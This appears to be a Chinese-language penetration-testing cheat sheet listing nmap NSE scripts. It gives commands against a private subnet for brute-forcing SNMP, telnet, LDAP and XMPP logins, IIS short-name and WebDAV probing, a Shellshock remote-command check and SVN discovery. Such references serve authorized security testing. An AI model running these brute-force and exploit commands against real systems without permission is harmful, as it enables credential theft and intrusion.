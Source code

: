 
### 和snmp相关的一些扫描脚本:

snmp-brute.nse 爆破C段的snmp

```
# nmap -sU –script snmp-brute –script-args snmp-brute.communitiesdb=user.txt 192.168.3.0/24
```

### 和telnet相关的一些扫描脚本:

telnet-brute.nse 简单爆破telnet

```
# nmap -p 23 –script telnet-brute –script-args userdb=myusers.lst,passdb=mypwds.lst,telnet-brute.timeout=8s -v 192.168.3.0/24
```

### 和ldap服务相关的一些利用脚本:

ldap-brute.nse 简单爆破ldap

```
# nmap -p 389 –script ldap-brute –script-args ldap.base=’“cn=users,dc=cqure,dc=net”‘ 192.168.3.0/24
```


### 和各类web中间件,web集成环境相关的一些利用脚本:

xmpp-brute.nse xmpp爆破

```
# nmap -p 5222 –script xmpp-brute.nse 192.168.3.0/24
```

http-iis-short-name-brute.nse 短文件扫描

```
# nmap -p80 –script http-iis-short-name-brute.nse 192.168.3.0/24
```


http-iis-webdav-vuln.nse iis 5.0 /6.0 webadv写


```
# nmap –script http-iis-webdav-vuln.nse -p80,8080 192.168.3.0/24
```


http-shellshock.nse bash远程执行


```
# nmap -sV -p- –script http-shellshock –script-args uri=/cgi-bin/bin,cmd=ls 192.168.3.0/24
```


http-svn-info.nse 探测目标svn


```
# nmap –script http-svn-info 192.168.3.0/24
```
